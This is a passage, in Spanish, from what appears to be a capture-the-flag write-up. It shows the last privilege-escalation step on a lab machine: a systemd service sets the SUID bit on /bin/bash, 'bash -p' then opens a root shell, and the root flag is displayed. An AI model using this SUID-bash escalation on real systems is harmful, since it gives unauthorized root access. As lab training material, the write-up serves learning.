 ```shell
systemctl enable --now my-service.pdRid6.service
```

Una vez hecho eso y hemos hecho que se pusiera los permisos `SUID` en `/bin/bash` podremos hacer lo siguiente...

```shell
ls -la /bin/bash
```

Info:

```
-rwsr-xr-x 1 root root 1113504 Jun  6  2019 /bin/bash
```

```shell
bash -p
```

Y con esto ya seremos `root`, por lo que leeremos la flag...

> root.txt (flag2)

```
                                                                                                      
  ####   ####  #    #  ####  #####    ##   ##### #    # #        ##   ##### #  ####  #    #  ####     
 #    # #    # ##   # #    # #    #  #  #    #   #    # #       #  #    #   # #    # ##   # #        
 #      #    # # #  # #      #    # #    #   #   #    # #      #    #   #   # #    # # #  #  ####     
 #      #    # #  # # #  ### #####  ######   #   #    # #      ######   #   # #    # #  # #      #    
 #    # #    # #   ## #    # #   #  #    #   #   #    # #      #    #   #   # #    # #   ## #    #    
  ####   ####  #    #  ####  #    # #    #   #    ####  ###### #    #   #   #  ####  #    #  #### 
  
                                            kernelblog.org    
                           
                                                                                                                                                                                                   
49360ba4cbe27a1b900df25b247315d7
```
